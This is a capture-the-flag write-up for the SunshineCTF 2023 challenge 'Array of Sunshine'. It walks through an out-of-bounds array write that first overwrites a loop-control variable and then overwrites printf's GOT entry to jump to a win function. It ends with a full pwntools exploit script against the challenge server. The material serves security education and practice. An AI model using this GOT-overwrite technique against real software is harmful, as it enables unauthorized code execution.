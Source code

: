 # Array of Sunshine

The challenge is to exploit an index out of bound write in a x64 binary.
The program asks for two inputs. The first defines the index of the fruits-array
and the second input writes into the memory of the specified index location:

![Basic Output](img1.png)

The program exits after the second input. However, if we take a look at the main function
we can see that there is a loop around the basket function:

![loop](img2.png)

The problem is, that after the second input, the program checks a magic-variable called
"printf_sym". If this magic variable is not 0x6, the programm jumps to the exit-function:

![exit](img3.png)

If we can somehow overwrite that variable with the value 0x6, the loop would work and we
can repeat the basket function. So the first thing we did, was to examine the memory down
from array[0]: 

![get the base address](img4.png)

We entered 0 into the first scanf and then we got an address to write to
in the second scanf. We used this address as our base and examined the memory in gdb:

![memup](img5.png)

As we can see, the variable "printf_sym" can be reached by increasing the index. By trial 
and error we figured out that the index to point to "printf_sym" is 10.

Now we are able to loop and repeat the basket function as often as we want. Next we need to
find a way to manipulate the execution flow. So we examined the memory again. This time we
decreased the addresses:

![memdown](img6.png)

And we found some got.plt locations:

![printf got](img7.png)

We can overwrite the printf@got.plt(index offset -12) with any address in the memory. The next time printf is
executed, the programm will jump to our address instead. So we were looking for some useful
functions and found the function "win":

![win function](img8.png)

The win() function executes system("cat flag.txt"). Thats exactly what we want to do. So lets
put this into code:

```python
from pwn import p64
from pwn import *


def print_n_send(p, payload):
    print(payload)
    p.sendline(payload)


# p = process("./sunshine")
p = remote("chal.2023.sunshinectf.games", 23003)

target_address = 0x405020
fruits_base = 0x405080
win_function_addr = 0x0040128F

local_34_value = (target_address - fruits_base) // 8

p.recvuntil(b"\n\n")
print(p.recvuntil(b"Which fruit would you like to eat [0-3] >>> "))

print_n_send(p, str.encode("10"))
print(p.recvuntil(b"Type of new fruit >>>"))
print_n_send(p, b"\x06\x00\x00\x00\x00\x00\x00\x00")
print(p.recvuntil(b"Which fruit would you like to eat [0-3] >>> "))
print_n_send(p, str(local_34_value).encode())
print(p.recvuntil(b"Type of new fruit >>>"))
print_n_send(p, p64(win_function_addr))
print(p.recv())
```

![pwn](img9.png)

